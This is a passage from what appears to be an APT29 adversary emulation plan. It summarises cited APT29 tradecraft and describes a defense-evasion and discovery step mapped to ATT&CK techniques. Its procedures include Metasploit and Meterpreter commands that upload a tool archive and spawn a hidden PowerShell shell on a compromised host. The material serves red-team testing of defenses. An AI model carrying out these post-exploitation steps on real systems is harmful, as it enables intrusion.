 * MiniDuke has transferred additional backdoors onto a system via GIF files.<sup> [3](https://securelist.com/the-miniduke-mystery-pdf-0-day-government-spy-assembler-0x29a-micro-backdoor/31112/) </sup>

* SeaDaddy/SeaDuke may support HTTPS/SSL network communications.<sup> [4](https://unit42.paloaltonetworks.com/unit-42-technical-analysis-seaduke/), [13](https://www.symantec.com/connect/blogs/forkmeiamfamous-seaduke-latest-weapon-duke-armory) </sup>

* APT29 has removed tools and forensic artifacts to hide activity, including the usage of Sdelete ([S0195](https://attack.mitre.org/software/S0195/)). APT29 has also bypassed UAC to elevate privileges.<sup> [5](https://www.slideshare.net/MatthewDunwoody1/no-easy-breach-derby-con-2016) </sup>

* HAMMERTOSS has embedded pictures with commands using steganography.<sup> [6](https://www.fireeye.com/blog/threat-research/2015/07/hammertoss_stealthy.html) </sup>

---

### Step 4 - Defense Evasion and Discovery

The attacker uploads additional tools ([T1105](https://attack.mitre.org/techniques/T1105/)) through the new, elevated access before spawning an interactive powershell.exe shell ([T1086](https://attack.mitre.org/versions/v6/techniques/T1086/) / [T1059.001](https://attack.mitre.org/techniques/T1059/001/)). The additional tools are decompressed ([T1140](https://attack.mitre.org/techniques/T1140/)) and positioned on the target for usage. The attacker then enumerates running processes ([T1057](https://attack.mitre.org/techniques/T1057/)) to discover/terminate the initial access from Step 1 before deleting various files ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/)) associated with that access. Finally, the attacker launches a PowerShell script that performs a wide variety of reconnaissance commands ([T1016](https://attack.mitre.org/techniques/T1016/), [T1033](https://attack.mitre.org/techniques/T1033/), [T1063](https://attack.mitre.org/versions/v6/techniques/T1063/) / [T1518.001](https://attack.mitre.org/techniques/T1518/001/), [T1069](https://attack.mitre.org/techniques/T1069/), [T1082](https://attack.mitre.org/techniques/T1082/), [T1083](https://attack.mitre.org/techniques/T1083/)), some of which are done by accessing the Windows API ([T1106](https://attack.mitre.org/techniques/T1106/)).

#### Procedures

##### 4.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

From Metasploit:

[msf] > `sessions`
[msf] > `sessions -i 1`

[meterpreter\*] >

```powershell
upload SysinternalsSuite.zip "C:\\Users\\username\\Downloads\\SysinternalsSuite.zip"
```

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```powershell
Expand-Archive -LiteralPath "$env:USERPROFILE\Downloads\SysinternalsSuite.zip" -DestinationPath "$env:USERPROFILE\Downloads\"
```
